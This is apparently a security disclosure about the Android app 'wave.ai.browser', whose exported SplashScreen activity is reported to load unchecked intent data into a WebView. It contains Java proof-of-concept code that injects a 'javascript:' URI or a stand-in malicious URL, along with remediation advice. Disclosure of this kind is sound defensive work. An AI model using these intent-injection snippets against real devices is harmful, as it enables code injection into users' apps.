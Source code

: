 ## Vulnerability Report: Arbitrary Code Execution via Exported `SplashScreen` Activity in `wave.ai.browser`

### Overview:

The `wave.ai.browser` application contains a manifest entry that exports the `wave.ai.browser.ui.splash.SplashScreen` activity. This exported activity permits unauthorized applications to start it with arbitrary intent data & can lead to arbitrary code execution within the context of the `wave.ai.browser` application.

### Detailed Description:

An exported activity is one that can be invoked by other applications on the device. If not properly protected or if it implicitly trusts the data it receives, this can pose a security risk.

Given the manifest entry:
```xml
<activity android:theme="@style/Theme.App.Splash" 
          android:name="wave.ai.browser.ui.splash.SplashScreen" 
          android:exported="true" 
          android:launchMode="singleTop" 
          android:screenOrientation="portrait">
</activity>
```

The `wave.ai.browser.ui.splash.SplashScreen` activity is exported, meaning any third-party application can start this activity.

This activity uses a WebView component to display web content and doesn't adequately validate or sanitize the URI or extra data passed in the intent. 

Therefore a malicious app could craft an intent to load a website or execute arbitrary JavaScript within that WebView.

### POC:

![wave_ai_uri](https://github.com/actuator/wave.ai.browser/assets/78701239/11744eeb-2c73-4d63-9cea-2986e85c60bb)






#### Malicious Intent Creation:
In a malicious app:
```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("wave.ai.browser", "wave.ai.browser.ui.splash.SplashScreen"));
intent.setData(Uri.parse("javascript:malicious_code_here"));
startActivity(intent);
```


If the `SplashScreen` activity in `wave.ai.browser` loads URIs in this manner without checking or sanitizing them, the malicious JavaScript code would execute within the context of the `wave.ai.browser` app or load an arbitrary website.

```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("wave.ai.browser", "wave.ai.browser.ui.splash.SplashScreen"));
intent.setData(Uri.parse("http://maliciouswebsitetest.com/"));
startActivity(intent);
```

### CWE References:

CWE-94: Improper Control of Generation of Code ('Code Injection'): The vulnerability can potentially allow attackers to inject arbitrary code.

### Recommendations:

1. **Limit the Export of Activities**: Unless there's a compelling reason, avoid exporting activities. If you must export an activity, use intent filters and permissions to restrict who can start the activity.
2. **Validate and Sanitize Intent Data**: Always validate and sanitize data obtained from intents before use. Never trust data from external sources.
3. **Secure WebView Settings**: If using WebView, disable JavaScript unless necessary. Always sanitize and validate URLs and data passed to the WebView.

### Conclusion:

The manifest configuration of `wave.ai.browser` exposes it to potential arbitrary code execution risks. Immediate remediation actions should be taken to prevent malicious apps from exploiting this vulnerability.
